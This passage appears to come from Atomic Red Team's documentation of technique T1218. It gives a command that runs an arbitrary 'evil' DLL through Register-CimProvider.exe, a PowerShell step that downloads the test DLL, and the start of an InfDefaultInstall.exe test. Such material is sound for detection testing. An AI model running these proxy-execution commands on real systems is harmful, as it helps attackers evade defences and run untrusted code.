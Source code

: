 ## Atomic Test #3 - Register-CimProvider - Execute evil dll
Execute arbitrary dll. Requires at least Windows 8/2012. Also note this dll can be served up via SMB

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| dll_payload | DLL to execute | Path | PathToAtomicsFolder&#92;T1218&#92;src&#92;Win32&#92;T1218-2.dll|


#### Attack Commands: Run with `command_prompt`! 


```cmd
C:\Windows\SysWow64\Register-CimProvider.exe -Path #{dll_payload}
```




#### Dependencies:  Run with `powershell`!
##### Description: T1218-2.dll must exist on disk at specified location (#{dll_payload})
##### Check Prereq Commands:
```powershell
if (Test-Path #{dll_payload}) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{dll_payload}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1218/src/Win32/T1218-2.dll" -OutFile "#{dll_payload}"
```




<br/>
<br/>

## Atomic Test #4 - InfDefaultInstall.exe .inf Execution
Test execution of a .inf using InfDefaultInstall.exe

Reference: https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OSBinaries/Infdefaultinstall.yml

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| inf_to_execute | Local location of inf file | string | PathToAtomicsFolder&#92;T1218&#92;src&#92;Infdefaultinstall.inf|
